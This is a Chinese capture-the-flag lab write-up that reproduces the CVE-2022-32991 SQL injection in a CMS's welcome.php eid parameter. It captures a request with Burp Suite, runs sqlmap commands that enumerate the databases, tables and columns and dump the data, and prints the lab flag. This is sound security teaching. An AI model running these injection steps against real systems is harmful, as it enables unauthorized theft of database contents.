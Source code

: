 # CVE-2022-32991靶场复现

靶场环境：<br />![image.png](https://cdn.nlark.com/yuque/0/2023/png/36016220/1698391168977-d9dd1ffd-b597-4c48-8983-b25a7594863a.png#averageHue=%23242b41&clientId=ua93c8982-2c16-4&from=paste&height=683&id=uefea2e23&originHeight=854&originWidth=1525&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=156268&status=done&style=none&taskId=ud8992b20-9651-4320-99b2-fe74ea83465&title=&width=1220)
> 题目提示了该CMS的welcome.php中存在SQL注入攻击。

CVE官方给出的提示：<br />![image.png](https://cdn.nlark.com/yuque/0/2023/png/36016220/1698391542348-6b3c5766-2e18-400f-9335-023601fa65a6.png#averageHue=%2388b563&clientId=ua93c8982-2c16-4&from=paste&height=711&id=u7b402201&originHeight=889&originWidth=1897&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=169157&status=done&style=none&taskId=u389696ca-e6bc-4bb8-8e8f-05434362234&title=&width=1517.6)
> welcome.php页面存在SQL注入，并且这个参数是eid

打开靶场环境：<br />![image.png](https://cdn.nlark.com/yuque/0/2023/png/36016220/1698391792461-4dd75298-b543-4f01-b243-a47e645d58d8.png#averageHue=%23525251&clientId=ua93c8982-2c16-4&from=paste&height=753&id=uc2334ce5&originHeight=941&originWidth=1911&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=600876&status=done&style=none&taskId=uc8c707d0-8aa0-4bde-8fd0-237220af11e&title=&width=1528.8)
> 页面是一个登陆注册的界面

用户注册：<br />![image.png](https://cdn.nlark.com/yuque/0/2023/png/36016220/1698391971723-d81cc462-32f8-4722-b408-ddc3529912b5.png#averageHue=%236c6c6b&clientId=ua93c8982-2c16-4&from=paste&height=747&id=uff52efea&originHeight=934&originWidth=1878&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=440516&status=done&style=none&taskId=uda5dfb8a-1518-4f59-ac9a-357409aacc3&title=&width=1502.4)
> 1
> 01@0.com
> 123456
> 123456
> 点击Register(注册）
> 注册成功

用户登录：<br />![image.png](https://cdn.nlark.com/yuque/0/2023/png/36016220/1698392195911-d80521f1-144b-43d9-b394-7336c674b930.png#averageHue=%23616060&clientId=ua93c8982-2c16-4&from=paste&height=746&id=u3c32fe77&originHeight=932&originWidth=1903&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=482060&status=done&style=none&taskId=u2c707ec1-f9bc-4809-b271-2171190a7d3&title=&width=1522.4)
> 01@0.com
> 123456
> 点击Login(登录)

登陆成功：<br />![image.png](https://cdn.nlark.com/yuque/0/2023/png/36016220/1698392458601-c07898a4-1fd7-4755-bf6d-fc6f43d16d6c.png#averageHue=%230b9164&clientId=ua93c8982-2c16-4&from=paste&height=838&id=ue2b21ac0&originHeight=1047&originWidth=1920&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=68244&status=done&style=none&taskId=u96493203-f850-4e5d-87fe-77c5a595b06&title=&width=1536)
> 箭头所指方向存在welcome.php文件但是参数不是eid，而是p
> 下方有Start开始按钮，点点试试，看看有没有新的发现

![image.png](https://cdn.nlark.com/yuque/0/2023/png/36016220/1698392812414-f02d78f5-6fca-47a0-9f8e-50d46ead7db6.png#averageHue=%230b9164&clientId=ua93c8982-2c16-4&from=paste&height=851&id=ufead1465&originHeight=1064&originWidth=1914&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=63744&status=done&style=none&taskId=u7c3b69cf-2fbb-4ec4-a8ea-451e91b1016&title=&width=1531.2)<br />![image.png](https://cdn.nlark.com/yuque/0/2023/png/36016220/1698392864822-255d44d8-1412-453a-b1d6-5dc967c28d68.png#averageHue=%230b9164&clientId=ua93c8982-2c16-4&from=paste&height=849&id=ua201c533&originHeight=1061&originWidth=1918&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=68108&status=done&style=none&taskId=u9ebb476d-1ffb-4d0f-9ede-789dbe6fdee&title=&width=1534.4)
> 存在了eid参数
> 由于没有注入窗口，所以想到了，火狐+burpsuite+sqlmap组合拷打

复制带有eid参数的页面网址，用火狐浏览器打开，进行burpsuite抓包<br />![image.png](https://cdn.nlark.com/yuque/0/2023/png/36016220/1698393233588-914e8824-9f61-4493-9b21-5c59048195da.png#averageHue=%230c9064&clientId=ua93c8982-2c16-4&from=paste&height=727&id=u66c84e69&originHeight=909&originWidth=1661&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=621925&status=done&style=none&taskId=uc3d812fa-1194-406e-994d-5eceb60f042&title=&width=1328.8)<br />![image.png](https://cdn.nlark.com/yuque/0/2023/png/36016220/1698393280173-a158f038-7ffd-4a37-9a15-7e0bf1804cee.png#averageHue=%23797351&clientId=ua93c8982-2c16-4&from=paste&height=719&id=u79c922d1&originHeight=899&originWidth=1599&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=472705&status=done&style=none&taskId=u34b74877-25d2-45bd-9070-d17114717e8&title=&width=1279.2)<br />创建一个txt文件，将数据包复制到这个txt文件里面<br />![image.png](https://cdn.nlark.com/yuque/0/2023/png/36016220/1698393383124-d84a3157-bc6a-4260-ae7e-52c5e2718a70.png#averageHue=%231c203a&clientId=ua93c8982-2c16-4&from=paste&height=717&id=u9bfb2fc8&originHeight=896&originWidth=1454&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=855653&status=done&style=none&taskId=ued2f68c3-80ee-46eb-96ca-fc8ab7726e3&title=&width=1163.2)![image.png](https://cdn.nlark.com/yuque/0/2023/png/36016220/1698393911003-d83c4de7-8c37-40ed-b785-af17a197b2c5.png#averageHue=%231b1d28&clientId=ua93c8982-2c16-4&from=paste&height=714&id=u99f72faf&originHeight=893&originWidth=1642&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=423140&status=done&style=none&taskId=uc85e1b54-92cc-46d2-b46c-c9201fcad9e&title=&width=1313.6)<br />注入前的准备工作，了解sqlmap的部分参数
> 1. -r 加载文件中的HTTP请求（本地保存的请求包txt文件）
> 2. -D 选择使用哪个数据库
> 3. -T 选择使用哪个表
> 4. -C 选择使用哪个列
> 5. --dbs 列出所有的数据库
> 6. --batch 自动选择yes
> 7. --tables 列出当前的表
> 8. --columns 列出当前的列
> 9. --dump 获取字段中的数据

**启动sqlmap加载flag.txt文件HTTP请求并列出其所有数据库**<br />**进入到桌面目录下（注意这是我的flag.txt文件保存的位置）**<br />**执行如下命令：**<br />`sqlmap -r flag.txt --dbs --batch`<br />回显如下：<br />![image.png](https://cdn.nlark.com/yuque/0/2023/png/36016220/1698407128776-06b08a44-1d47-48db-af31-5e8d5543fe29.png#averageHue=%231c1e26&clientId=ua93c8982-2c16-4&from=paste&height=683&id=u528db8a1&originHeight=854&originWidth=1661&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=415792&status=done&style=none&taskId=u2ea07427-719f-4699-962a-9152cce1860&title=&width=1328.8)<br />**可以看到存在数据库ctf（注意执行命令后，加载可能会慢点，不必慌张。）**<br />**接下来列出数据库ctf里面的所有数据表**<br />**执行如下命令：**<br />`sqlmap -r flag.txt -D ctf --tables --batch`<br />回显如下：<br />![image.png](https://cdn.nlark.com/yuque/0/2023/png/36016220/1698407428057-f78c2ce7-cfa9-4aee-ac67-5d3cddb0ba4d.png#averageHue=%231c1f26&clientId=ua93c8982-2c16-4&from=paste&height=692&id=u673d87b6&originHeight=865&originWidth=1661&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=433722&status=done&style=none&taskId=u0d06371d-ef0e-40bf-a800-c0621d72830&title=&width=1328.8)<br />![image.png](https://cdn.nlark.com/yuque/0/2023/png/36016220/1698407504322-076b7257-5b11-4408-bf9e-2741ebed3620.png#averageHue=%231c1e26&clientId=ua93c8982-2c16-4&from=paste&height=685&id=u782cf460&originHeight=856&originWidth=1650&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=402839&status=done&style=none&taskId=u7f1d5903-b684-47aa-b69b-a213e38985b&title=&width=1320)<br />**可以看到数据库ctf里面存在数据表flag，猜测数据表flag里面存在flag（严谨一点）**<br />**接着爆数据表flag里面的字段**<br />**执行如下命令：**<br />`sqlmap -r flag.txt -D ctf -T flag --columns --batch`<br />回显如下：<br />![image.png](https://cdn.nlark.com/yuque/0/2023/png/36016220/1698407773732-b8740606-49e4-471c-9c33-9fed9721804c.png#averageHue=%231c1e26&clientId=ua93c8982-2c16-4&from=paste&height=687&id=ua949a307&originHeight=859&originWidth=1632&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=417358&status=done&style=none&taskId=u16e225ab-9f7f-4e22-b229-9b93128505c&title=&width=1305.6)<br />**数据表flag里面存在字段flag**<br />**最后爆flag字段里面的内容**<br />**执行如下命令：**<br />`sqlmap -r flag.txt -D ctf -T flag -C flag --dump --batch`<br />回显如下：<br />![image.png](https://cdn.nlark.com/yuque/0/2023/png/36016220/1698407990838-6ce051b0-d835-41ac-a77f-26302c6c971c.png#averageHue=%231c1e26&clientId=ua93c8982-2c16-4&from=paste&height=680&id=udbd6f0a4&originHeight=850&originWidth=1648&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=417703&status=done&style=none&taskId=u9bc8b9f6-2293-43a7-800c-e733072ef37&title=&width=1318.4)<br />**得出flag：**<br />`flag{cdadbe80-6b13-4ce7-bd86-3ff050dd36d3}`


